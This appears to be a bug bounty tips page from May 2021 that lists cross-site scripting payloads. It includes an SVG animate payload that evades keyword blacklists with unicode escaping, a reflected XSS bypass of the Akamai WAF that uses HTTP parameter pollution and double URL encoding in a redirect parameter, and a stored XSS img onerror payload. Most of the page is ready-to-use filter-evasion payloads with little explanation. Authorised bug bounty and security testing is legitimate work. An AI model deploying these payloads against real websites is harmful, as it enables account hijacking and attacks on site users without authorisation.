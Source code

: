# Bug Bounty Tips - May 2021

# 📅 03-May-2021
## Black small squareBlacklisted keywords
1. Tags like img, iframe, body
2. Common attributes like onerror, onload
3. Methods like alert, prompt, confirm

Black small squareAllowed:
1. Characters like > , <

Final payload:
```js
<svg><animate onend=a\u006cert(1) dur=1s>
```
***Source: https://twitter.com/nehatarick/status/1387716353663119366?s=20***

## Reflected XSS Akami Waf Bypass in Redirect Parameter using HTTP Parameter Pollution and Double Url Encode:
```js
/login?ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529
```

## Stored XSS Payload
```js
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```
